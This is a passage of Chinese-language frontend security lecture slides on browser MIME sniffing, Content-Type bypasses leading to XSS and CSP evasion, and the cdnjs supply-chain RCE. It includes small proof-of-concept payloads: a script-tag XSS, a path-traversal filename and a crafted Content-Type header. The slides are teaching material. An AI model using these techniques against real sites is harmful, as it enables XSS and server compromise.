lCljhw8f7k6V8F23bl3lGL8DQpOdOMF/qLd9+3Y9XMJDXe/QoUPUHEQaD5ylS5faz58/R9u5QAK5ReC3xendu3d23rx5+oTFhd2tWzd75cqVyE4nThCMoUOH2sGDB9tz585F+93C2bNnLZ7Kruzbt09vjJUrV+omCVcsliVk0e0QskOHDrnqmb6dOGH/xIkTba9evfSGi23fHXDx4kU7fvx426lTJ9u/f3+LkUeqki5xevLkiZ01a5aF0A4YMEBv9C9fviQ9LYRQQmLtM0YzY8aMsRL2Jq178OBBrXfkyJGE/fANfLFw4UIV/mXLlln4LrZI6GevXbsWu0lHoRg9uYKRad++ffU8EEoJGS2Ek4UEcotAtuKEGww3tRv+42l+9+7dBPtwQ+DGwMeFeFjes2dPQt3YDZIv0mPi20RIsWPHDiu5EN2PkYLktTIJmxMnnAf24bxYhr2xRXIyuh11EPq4ehCqZKFLOsRp7969ETOEUO6c+H706FFkHvqAMBF2Qxwkj6ajyqhCkoXWrVvbevXqJdmj/82XtoX2XHiK8DerIjlAPaZPnz4J1eD/CRMmRH0ZNmyYvXfvXkI9biCBdBPIUpw2b94cXegzZszI8snpxAl5GxSMEHCz4embqhw/flzbh2BkVRB2IOTADYcR1cePH7W6E6eOHTvar1+/qtBgRBebB0IeBcdBIGJHVKNHj9btCHHiy9+KE8JVCCFGHDdv3tTmIYK7du3Sc7Zv3163ORtgL+z4nVyb6/OWLVvizdZ1J3JulIOwDNtShahgAn6og9FlqvL+/XsdkbmH1IoVK1JV5XYSSAuBLF8lqFixos4IyYVr5IbVmR0sZ1Xk6au7CxYsaNq1a2dOnTqVtLrkk0yLFi2MPN11tilpJdkoQqQze5jdQ2ncuLFB27FFQkhToEABkydPHiNhoJGQxLx+/VqrSAik38WLFzeTJk0yMgrQD2a1UCQk1O90/sEsmNzMRkI5U6VKFW0atqG/IpJGRN+IEOkspdzsaq8ItXnw4EG2ZkiYaGT0Zdq0aZOybr9+/aLZy1atWmk9EZ6E+nIFqY1r1641Io6mevXqCXXchhs3bpiMjAztl4ipqVy5stvFbxL4VwhkKU6YjpbZICOzcTp13qhRI1O/fn0jT22dwo+3CDdaoUKFos1YT1auX79umjVrZiAYeE+nSJEiCdVevHihYlK2bFmDm02e7kZCP7NgwQKTL1++TPVjXyOIbwuvK6B8+vTJyCgq+khC3kgy3ribN1ODf7kiOR5tAVP98cW9NoHzd+7c2Tx9+lTFecOGDXrDd+3a1UiuLv4wXUf/JR9nZMRl8KpDqlKqVKloV7JXIbATwoRXMCQ3ZfBqBGyJL6gj4amKKl75kDyVWbdunYH/JFSMr851EkgvgZyMvxDuICQRCzSHsmnTpuhwlxCPNsgC8knIe8QWJGIRGiCUcaEGErZu2hwh0ZAhQ/QcqIdEtwhVbBPRsgtxYmfrMAMF+1xYAxuxPnv27Og4t4BQMDbUc9v/NqxDKIdzuvDNtYtZL/QJ4V58gR1r1qzRGVAci1cV4sMscMGxqZLqaBPHxs7WIfmNbXjdI7Y4xpgZdEVGm27RImfmclawBevJ8nPRAVwggTQTSP34lSs6vjRo0MDIzW4QkmEUJXkHrYLRCZ6qCGXcS4zyLo2GK3jh0o0EMFpAWIZ6GCFg1IQnd61atYy8/6RtIXxAqCViZyQZa8aNG2dKly4db4oRYdGXCLED4QbCJBG26FyHDx82cjMZmRLX0FSS5Gby5Ml6DPowcOBAbXfUqFFR20ePHjW7d+82CLFQDhw4oOsyo2hEPHUbRmAYTaAe+owRHpbxQTiHglBOktwavnXv3l3rr169Wkcg6PuUKVO0Xuyf/Pnz6+hQXqkwkpvSkdHOnTujKmAsAmtgb3xY6yq582O0C7vkWlE22C+zpAb8UcAWbWFkV6xYMfWBJLpNhQoVdD/+IMzDfryFjr5hpIvQlIUEco1AOsROQi19OovROjLAExZT4VjHB0lsFDfScdtjvzETl5OC96Jij0fbmN2L3SY5HG1SwiErOZpM+zACQUIaM1UocuNm2h/bDpbv3Lmj9fbv35+yXmwiHkl7l/B2beGcy5cv13Zy+kfyZcoWdiYrGHliVObOhRlKjB7dOr4dY/eyZuw+LGMmkYUEfCGQln++Ihf2f6Jg1CPT+JosRl4mN0YCGHE9fPhQRzvIn/1pkXfHNCeF/BsLCYRAIChxCsGh7CMJ/F8I5Cjn9H/pNPtBAiTgPwGKk/8+ooUkECQBilOQbmenScB/AhQn/31EC0kgSAIUpyDdzk6TgP8EKE7++4gWkkCQBChOQbqdnSYB/wlQnPz3ES0kgSAJUJyCdDs7TQL+E6A4+e8jWkgCQRKgOAXpdnaaBPwnQHHy30e0kASCJEBxCtLt7DQJ+E+A4uS/j2ghCQRJgOIUpNvZaRLwnwDFyX8f0UISCJIAxSlIt7PTJOA/AYqT/z6ihSQQJAGKU5BuZ6dJwH8CFCf/fUQLSSBIAhSnIN3OTpOA/wQoTv77iBaSQJAEKE5Bup2dJgH/CVCc/PcRLSSBIAlQnIJ0OztNAv4ToDj57yNaSAJBEqA4Bel2dpoE/CdAcfLfR7SQBIIkQHEK0u3sNAn4T4Di5L+PaCEJBEmA4hSk29lpEvCfAMXJfx/RQhIIkgDFKUi3s9Mk4D8BipP/PqKFJBAkAYpTkG5np0nAfwIUJ/99RAtJIEgCFKcg3c5Ok4D/BChO/vuIFpJAkAQoTkG6nZ0mAf8JUJz89xEtJIEgCVCcgnQ7O00C/hOgOPnvI1pIAkESoDgF6XZ2mgT8J0Bx8t9HtJAEgiRAcQrS7ew0CfhPgOLkv49oIQkESYDiFKTb2WkS8J/APyDX9qKZXNefAAAAAElFTkSuQmCC)

---

### 範例三

h1 前面多加一些字 ->以純文字顯示，而不是 HTML

```
const express = require('express');
const app = express();

app.get('/', (req, res) => {
  res.write('Hello, <h1>world</h1>')
  res.end()
});

app.listen(5555, () => {
  console.log('Server is running on port 5555');
});
```

![bg contain right:40% ](data:image/png;base64,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8xUmlnX1//jjD7ez4YYbFvfcc09hD2zd8YG0UTWm5TavvfbaxcEHH1zeVfdb/k+YMKFYfvnl/VN3sLRx1FFHFXPMMUdhPfTS3qIYPXp0sd1229Xta7ahGJrYFscdd5zzNrGsq3b66ae7/RNPPLGwkUPdMTbyJ9DxFbnkkkuGo48+2ns+11xzTRg2bFhYddVVwwILLBA23XRTH0aV37QvvfRSuPHGG73HYA9+0PBq1KhRSd8vGs5dd9113gOdddZZw4orrhi23377MNNMMyW9robYt912m/cC7SUS1l133XD33XeHeeaZp+666kGLiXrk6kGa6NX1TmaeeeZgYuHnzD777HXnakM91UcffTSceuqpYeONNw4mGkG9T9nSsVguueQS761re7311gvrrLOOH1JPSbFTe8VE11LMOnH766+/PL7qASqNsO+++3o75KPSDLvttltYa6214uUrfcumCX545ZVXwoILLuj3R6sTf/zxxzB+/PhwxhlneG9vxx13dL+b1f/uu+88DmKke6BZufPOO8Ott94aFl988bDTTjt5uqNcT/HTZ+LEieXdtd8aAalnqV7/8ccfH/bbbz8f7egZofQAgSrvA3vQ/U1rN2St+l133eX7Pv3009o+e1h9n97uepOPHDnSt8eOHdu0N1S1F9KuZ3n//ff7295CVZhA1K6pa9sQvta2bv5Qz+XSSy/13q6uK/8sBzvNJWLPUnXEJPJQz6VVUQ+6sWdZrmu5tGKXXXZxruqFWl60sGG8V7EH3fdbvrNQLGKxnJ2zUTt0zESoqMJNfm622WaF5VC9/aeccorb13bkHa8Rv9vF9IsvvihWW201P1fnRy5iU+5Z6p4SI+1XncMOO6ywF028RNNvy2973a+//nqa4+pZxuvFUZK2y/dz+ST1YnW8sWcZ69jLo7jssstq8dfo6sknn4yH+c6UgPKOHUsUyy233NKFQeKgoZNuqCiWb7/9tm9LsMrDcg2NVE83YGNp92CV67YSy59++skfKImG0gUqGqJqqKprqr3dLpYXqz0k1rOoXbfZdaJY6mH6/fffvW3WO2qbUugklvE6NoFR2MSR+yn/xd96sL59/fXXezW90C644AL/LT5i8tRTTxV95aYXg86VeClmKko1SPwaS7uY6gUqO5Yb9KGy5RML8dC+KJbW8/Nt7TvzzDOLb775pvES02wr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)

---

# 瀏覽器如何處理 MIME Sniffing

- Chromium 中拿來做 MIME sniffing 的程式碼在 [net/base/mime_sniffer.cc](https://source.chromium.org/chromium/chromium/src/+/refs/tags/118.0.5981.4:net/base/mime_sniffer.cc)

### 瀏覽器偵測行為 :

1. HTML payload, no Content-Type header :

- IE 7: Render as HTML
- Firefox 2: Render as HTML
- Safari 3: Render as HTML
- Opera 9: Render as HTML

---

2. HTML payload, Content-Type: "text/plain" :

- IE 7: Render as HTML
- Firefox 2: Render as text
- Safari 3: Render as text (Note: Safari will Render as HTML if the URL has an HTML extension)

3. HTML Payload，Content-Type: application/octet-stream :

- IE 7: Render as HTML
- Firefox 2: Download as application/octet-stream
- Safari 3: Render as HTML
- Opera 9: Render as HTML

---

### 怎麼樣才會被視為「HTML payload」呢？

瀏覽器會檢查 response 中去除空白後的開頭字串是否匹配 HTML 模式
使用 SniffForHTML 函數:

```
static bool SniffForHTML(base::StringPiece content,
                         bool* have_enough_content,
                         std::string* result)
```

- 檢查範圍：最多前 512 個字節

```
 *have_enough_content &= TruncateStringPiece(512, &content);
```

- 移除字串開頭的空白字符

```
base::StringPiece trimmed =
      base::TrimWhitespaceASCII(content, base::TRIM_LEADING);
```

---

- 檢查字串是否符合預定的 HTML Tag 清單

```
return CheckForMagicNumbers(trimmed, kSniffableTags, result);
```

- HTML Tag 清單:

  <!DOCTYPE html>、<html>、<script>、<head>、<body>、&lt;div&gt;、&lt;h1&gt;、&lt;a&gt;、&lt;p&gt;

- 小結:
  瀏覽器會檢查 response 移除空白以後開頭的字串是不是符合上面列出的那些 HTML 的模式，所以前面試過的三個範例中，只有 &lt;h1&gt;hello&lt;/h1&gt;這個範例最後是呈現為 HTML。

---

### 另外的測試

從原始碼裡面可以看出 Chromium 似乎不考慮 URL 上的副檔名或其他因素，單純只考慮檔案內容而已:

```
const express = require('express');
const app = express();

app.get('/test.html', (req, res) => {
  res.write('abcde<h1>test</h1>')
  res.end()
});

app.listen(5555, () => {
  console.log('Server is running on port 5555');
});
```

---

- 結果:
  - 以 Chromium 測試儘管網址是 test.html，也是呈現純文字。
  - 以 forfox 測試，可看右邊圖，是以 HTML 呈現，推斷在進行 MIME sniffing 會參考網址列上的附檔名。
    

---

# 利用 MIME sniffing 進行攻擊

### 沒有設置 Content-Type 的風險

- 如果內容可以控制，就可以利用 MIME sniffing 讓瀏覽器顯示網頁。

## 小例子

### 情境:

- 有個圖片上傳功能，僅檢查副檔名，未檢查檔案內容。
- 攻擊者上傳檔案 a.png，但內容為<script>alert(1)</script>

### 問題:

- 伺服器未自動加上 Content-Type，造成 XSS 漏洞。

## 可是現在的伺服器基本上都會自動加了，這有可能嗎？ 有!!

---

## 範例一

### 情境 :

使用 Apache HTTP Server 處理下載檔案的功能

### Apache HTTP Server 的特性 :

檔名裡面只有 . 的話，就不會輸出 Content-Type

### 攻擊方式:

上傳看似合法圖片的..png 的檔案，使用瀏覽器打開就可以呈現微網頁變 xss 漏洞

### PS. 根據 Apache HTTP Server

---

# 可以執行 JavaScript 的 content type

### 除了 HTML，哪些檔案可以執行 JavaScript？

BlackFan 的研究([Content-Type Research](https://github.com/BlackFan/content-type-research/tree/master) )提供完整清單([Content-Type that can be used for XSS](https://github.com/BlackFan/content-type-research/blob/master/XSS.md))
主瀏覽器支援的 content type:

1. text/html
2. application/xhtml+xml
3. application/xml
4. text/xml
5. image/svg+xml
   研究結果：除了 HTML，以下檔案類型也可能執行 JavaScript：
   XML、SVG

---

## 關注 SVG

- SVG 是一種圖片格式，很多網站允許用戶上傳 SVG，視為普通圖片
- SVG 可以執行 JavaScript，因此 開放上傳 SVG = 開放上傳 HTM

### 範例 Mantis Bug Tracker 的漏洞: [Stored XSS via SVG file upload](https://mantisbt.org/bugs/view.php?id=30384)

- 漏洞 : 允許使用者上傳 SVG 檔案格式。
- 攻擊方法: 使用者上傳一個惡意的 SVG 檔，內含 JavaScript
- 結果: 其他使用者點開會執行裡面暗藏的程式碼

---

# 可以當成 script 載入的 content type

底下的十個 content type 只有兩個是不行的，大家猜猜看吧

1. application/zip
2. application/json
3. application/octet-stream
4. text/csv
5. text/html
6. text/json
7. text/plain
8. huli/blog
9. video/mp4
10. font/woff2

---

合法的 JavaScript MIME Type: [/third_party/blink/common/mime_util/mime_util.cc](https://chromium.googlesource.com/chromium/src.git/+/refs/tags/103.0.5012.1/third_party/blink/common/mime_util/mime_util.cc)

```
const char* const kSupportedJavascriptTypes[] = {
    "application/ecmascript",
    "application/javascript",
    "application/x-ecmascript",
    "application/x-javascript",
    "text/ecmascript",
    "text/javascript",
    "text/javascript1.0",
    "text/javascript1.1",
    "text/javascript1.2",
    "text/javascript1.3",
    "text/javascript1.4",
    "text/javascript1.5",
    "text/jscript",
    "text/livescript",
    "text/x-ecmascript",
    "text/x-javascript",
};
```

---

### 時代的眼淚:

- jscript
- livescript

### 不可作為 JavaScript 的 MIME Type:

1. audio/\*
2. image/\*
3. video/\*
4. text/csv

### 剛剛問題的解答

- text/csv
- video/mp4

---

## 如何關閉寬鬆的機制? X-Content-Type-Options: nosniff

### 作用:

嚴格限制瀏覽器只接受合法的 JavaScript MIME type

### 設定後 Content-Type 載入 text/plain 會出現以下錯誤:

```
Refused to execute script from 'http://localhost:5555/js' because its MIME type ('text/plain') is not executable, and strict MIME type checking is enabled.

```

### 說明:

- strict MIME type 就是加上那個 header 以後開啟的功能
- 除了 script，style 也是一樣，加了之後就只有 text/css 這個 MIME type 會被認可是合格的，其他都會出現錯誤。

### 如果繼續開啟這功能會怎樣呢？

---

## 繞過 CSP 的風險

### 情境：

剛好發現一個網站的 XSS，只不過麻煩的是 CSP 限制為 script-src 'self'; ，該網站允許上傳檔案（如 ZIP），但未檢查內容。

### 漏洞:

- 我們可以上傳包含 JavaScript 程式碼的 ZIP 檔案。
- 使用 <script src="/uploads/files/my.zip"></script> 成功引入並執行，繞過了 CSP。

---

# Content type 檢查的繞過

Content-Type 檢查方法:

1. 檢查前綴：type.startsWith('image/png')
2. 檢查結綴：type.endsWith('image/png')
3. 檢查是否包含：type.includes('image/png')
4. 完全比對：type === 'image/png'

備註:
Content type 常看到的是 application/json ，而在規格是式允許變化的，例如加上參數，如 application/json;foo=bar。

---

## 範例一 Grafana 的 Content-Type 檢查問題

### 情境:

Grafana 以第三種檢查方式，資安研究員以 text/plan; application/json 繞過檢查

### 漏洞:

只有 text/plan 才是真的 Content type，所以繞過了針對後綴的檢查

---

## 那如果只檢查前綴呢?字串一定要是 application/json 開頭呢?

- Flatt Security 針對 content type 的研究: [XSS using Dirty Content-Type in cloud era](https://speakerdeck.com/flatt_security/xss-using-dirty-content-type-in-cloud-era)
  - 規範允許 Content-Type 加上參數，如 application/json; foo=bar，且解釋行為可能因情境不同而改變。

### 舉個小例子

- 情境:
  發送的 Content-Type 為 application/json, text/html，瀏覽器會依序解析。
- 漏洞:
  如果只檢查字串開頭的 application/json，會以為最後檢析出 JSON
  因為後面還有 , text/html，最終瀏覽器會解析為 HTML，導致 XSS 攻擊。
- 防禦方式:
  完全比對整個 Content-Type

---

# 章節回顧

1. 什麼是 MIME sniffing？瀏覽器在什麼情況下會進行 MIME sniffing？

2. 在沒有設置 Content-Type 標頭的情況下，為什麼瀏覽器會將 &lt;h1&gt;hello&lt;h1&gt; 渲染為 HTML，而將 &lt;h2&gt;hello&lt;h2&gt; 渲染為純文字？

---

# 5-3 前端供應鏈攻擊：從上游攻擊下游

### Supply chain attack(供應鏈攻擊)

- 針對「上游」的漏洞發起攻擊，導致「下游」依賴者一同受到影響。

### 上游:

以前端為例，使用的 npm 套件或是程式碼中引入的第三方 script，這些就叫做「上游」。

### 接下來將以 cdnjs 為例來看前端的公來看前端的應鏈攻擊與防禦

---

# cdnjs

在前端開發中，常需引入第三方 Library（如 jQuery、Bootstrap）以加速開發。
在以往通常的做法是

- 自己下載一份檔案
- 找現成的 CDN 來載入

### 除了 CDN ，其他類似的服物還有:

- jQuery 官網上的 code.jquery.com
- Bootstrap 使用了一個叫做 jsDelivr 的服務

---

### 情境

現在做的網站需要用到 jQuery，函式庫，可以選擇的來源可以是:

1. 我自己的網站
2. jsDelivr: https://cdn.jsdelivr.net/npm/jquery@3.6.0/dist/jquery.min.js
3. cdnjs: https://cdnjs.cloudflare.com/ajax/libs/jquery/3.6.0/jquery.min.js
4. jQuery 官方：https://code.jquery.com/jquery-3.6.0.min.js

   最後選擇了 jQuery 官方提供的網址，寫下這一段 HTML：

```
<script src="https://code.jquery.com/jquery-3.6.0.min.js"></script>
```

---

### 使用 cdn 的原因

1. 懶惰，直接用別人的最快
2. 預算考量，放別人網站可以節省自己網站流量花費跟負荷
3. 速度考量

### 備註

CDN 在全球有多個節點，用戶可從最近的節點獲取資源，減少延遲（latency）。
例如:

- 主機放在美國時，台灣用戶若使用自己的伺服器抓取資源，需要跨國連線，延遲高。
- 使用 CDN，台灣用戶可以連到本地節點，下載速度更快。

---

### cdn 的缺點

1. 如果 CDN 出現故障或連線速度變慢，網站資源無法正常載入，導致效能受影響
   例如 : cdnjs 背後的公司 Cloudflare 曾發生故障，影響了許多使用其服務的網站。
2. 若 CDN 被駭客入侵，惡意程式碼可能被植入到函式庫中，你的網站會一起被入侵

### 這樣個攻擊手法就是「供應鏈攻擊」，從上游連帶影響到下游。

---

# 解析 cdnjs 的 RCE 漏洞

### 前言介紹 :

資安人員 @ryotkak（以下用「作者」來稱呼）發布了一篇文章: [Remote code execution in cdnjs of Cloudflare](https://blog.ryotak.net/post/cdnjs-remote-code-execution-en/)，作者發現了一個 cdnjs 的 RCE 漏洞，若是有心利用這個漏洞的話，可以控制整個 cdnjs 的服務。

- RCE(Remote code execution):
  這種漏洞可以讓攻擊者執行任意程式碼，是風險等級很高的漏洞。

---

# 第一個漏洞

### 漏洞概述

- cdnjs 的自動更新功能會解壓縮 npm 套件檔案（.tgz）
- 使用 Go 的 archive/tar 來解壓縮，未對解壓後的檔案沒有經過處理

有一段程式碼是複製檔案，然後做了類似底下的操作:

1. 用目的地 + 檔名拼湊出目標位置，建立新檔案
2. 讀取原本檔案，寫入新檔案

---

### 正常情況範例:

目的地: /packages/test
檔名:abc.js
最後位置: /packages/test/abc.js 產生新的檔案

### 惡意情況範例

目的地: /packages/test
檔名:../../../tmp/abc.js
最後位置: /tmp/abc.js
結果: 在 /package/test/../../../tmp/abc.js 也就是 /tmp/abc.js 底下寫入檔案。

### 問題

- 可將檔案寫入到系統任意有權限的路徑。
- 若覆蓋系統中的敏感或自動執行的檔案，可已達成 RCE。

---

# 第二個漏洞

git repo 的複製檔案程式碼:

```
func MoveFile(sourcePath, destPath string) error {
inputFile, err := os.Open(sourcePath)
if err != nil {
return fmt.Errorf("Couldn't open source file: %s", err)
}
outputFile, err := os.Create(destPath)
if err != nil {
inputFile.Close()
return fmt.Errorf("Couldn't open dest file: %s", err)
}
defer outputFile.Close()
\_, err = io.Copy(outputFile, inputFile)
inputFile.Close()
if err != nil {
return fmt.Errorf("Writing to output file failed: %s", err)
}
// The copy was successful, so now delete the original file
err = os.Remove(sourcePath)
if err != nil {
return fmt.Errorf("Failed removing original file: %s", err)
}
return nil
}
```

---

## symbolic link :

概念有點像是以前在 Windows 上看到的「捷徑」，這個捷徑本身只是一個連結，連到真正的目標去。

可以在類 Unix 系統裡面用 「ln -s 目表檔案 捷徑名稱」 建立一個 symbolic link`


---

再試著用 Node.js 寫一段複製檔案的程式碼，看看會發生什麼事

```
